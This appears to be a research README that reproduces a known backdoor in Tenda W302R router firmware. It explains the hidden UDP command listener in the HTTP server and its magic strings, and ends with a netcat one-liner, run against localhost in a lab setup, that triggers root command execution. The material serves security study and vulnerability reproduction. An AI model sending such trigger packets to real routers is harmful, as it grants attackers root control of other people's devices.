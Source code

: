 # Tenda W302R backdoor
- **Type**: hidden command, hardcoded credentials
- **Affected versions**: 3.1.192 - 3.1.202


## Backdoor
he backdoor is found in the executable `/bin/httpd` in the firmware. It is an HTTP server that
seems to be based on [GoAhead](https://www.embedthis.com/goahead/) v2.1.8. The server itself starts
a separate thread, creating a UDP socket bound to port 7329 or 24151 (depending on the router
model). That socket listens for incoming packets starting with the magic string `"w302r_mfg"` or
`"rlink_mfg"` (depending on the router model), and then interprets the rest of the packet as a
command:
- `0x65`: ping the backdoor socket
- `0x31`: run an `iwpriv` command
- `0x78`: run any command as root


## Triggering the backdoor
First, we need to copy the file used as a stand-in for the actual NVRAM to `/tmp`:
```console
$ cp ./original/vendors/Ralink/RT3052/RT2860_default_vlan /tmp/nvram_config
```
Then, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/user/goahead/src/goahead
```
In a separate terminal, we can trigger the backdoor (e.g., to run `id` as root):
```console
$ echo -en "rlink_mfg x /bin/id" | nc -u localhost 24151
uid=0(root) gid=0(root) groups=0(root)
```


## Reference
<https://web.archive.org/web/20131020145741/http://www.devttys0.com/2013/10/from-china-with-love>
